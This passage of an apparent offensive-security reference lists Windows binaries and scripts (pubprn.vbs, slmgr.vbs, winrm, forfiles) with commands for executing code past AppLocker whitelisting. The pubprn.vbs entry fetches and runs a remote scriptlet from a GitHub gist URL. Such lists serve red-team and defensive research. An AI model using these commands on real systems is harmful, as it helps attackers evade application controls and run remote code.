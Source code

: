Links:
https://twitter.com/gN3mes1s/status/941315826107510784
https://twitter.com/Hexacorn/status/776122138063409152



## 32. Pubprn.vbs

`pubprn.vbs 127.0.0.1 script:https://gist.githubusercontent.com/api0cradle/fb164762143b1ff4042d9c662171a568/raw/709aff66095b7f60e5d6f456a5e42021a95ca802/test.sct`

Requires admin: No  
Windows binary: Yes  
Bypasses AppLocker Default rules: ?  

Notes: 

Links:
https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
https://enigma0x3.net/2017/08/03/wsh-injection-a-case-study/



## 33. slmgr.vbs

`slmgr.vbs`

Requires admin: No  
Windows binary: Yes  
Bypasses AppLocker Default rules: ?  

Notes: Requires registry keys for com object.

Links:
https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
https://www.youtube.com/watch?v=3gz1QmiMhss



## 34. winrm.vbs

`winrm quickconfig`

Requires admin: No  
Windows binary: Yes  
Bypasses AppLocker Default rules: ?  

Notes: Requires registry keys for com object.

Links:
https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
https://www.youtube.com/watch?v=3gz1QmiMhss



## 35. forfiles.exe

`forfiles /p c:\windows\system32 /m notepad.exe /c calc.exe`

